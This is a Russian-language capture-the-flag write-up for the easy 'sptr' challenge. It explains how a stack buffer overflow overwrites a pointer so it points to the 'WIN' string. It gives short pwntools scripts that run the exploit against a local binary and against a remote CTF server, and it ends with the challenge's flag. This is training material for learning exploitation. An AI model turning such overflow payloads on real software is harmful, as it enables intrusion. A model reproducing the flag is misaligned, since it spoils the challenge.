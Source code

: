 # Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: sptr
# Сложность: Easy

В данном блоке предложены задачи на перетирание адресов. Перетирание адреса и изменения поведения программ является одним из ключевых навыков на любом CTF. В данных задачах важно понимать суть атаки, поэтому на небольших задачах листниг полностью в ассемблере больше разбирать не будем. Начнем решение: <br />
![image](https://github.com/user-attachments/assets/d382dd4b-817d-4dc3-a60d-ba50a2bd6b16)

Изначально указатель содержит адрес указывающий на строку `NO WIN`. Наша задача его перезаписать. Для того, чтобы его перезаписать нам необходимо переполнить статический
массив `auStack_18`, а рядом, написать новый адрес (естественно в little endian). Найдем адрес, указывающий на строку `WIN`. Обратим внимание на данный код: <br />

![image](https://github.com/user-attachments/assets/6c95d6e3-22c6-464e-9063-f1164cc14087)

Здесь используется функция `strcmp`, которая сравнивает две строки. Регистр `RDI` кладется первый аргумент, который представляет из себя строчку `NO WIN`. В регистр `RSI` пойдет второй аргумент, который адресом указывающий на строчку `WIN`. Нажмем на `DAT_00402058` и узнаем адрес: <br />

![image](https://github.com/user-attachments/assets/bdc1b672-2b91-4d87-9ff9-1ef5bbf7bc38)

В нашем случае адрес `0x402058`. Напишем скрипт, который отправит наш ввод. Сначала получим локальный флаг, а затем настоящий: 

```py
p = process('./sptr')
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()

```
![image](https://github.com/user-attachments/assets/bdec7ead-e676-4f20-acac-fc21bc677591) <br />

Получилось, а значит можем запустить программу на сервере:

```py
from pwn import * 

p = remote('109.233.56.90', 11600)
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```

![image](https://github.com/user-attachments/assets/c86f4aa4-1813-4dd4-9966-ca2ec9cc49c4) <br />

Ответ: `spbctf{b0e0b0cedc622b2396e0069cd5a5f568}`
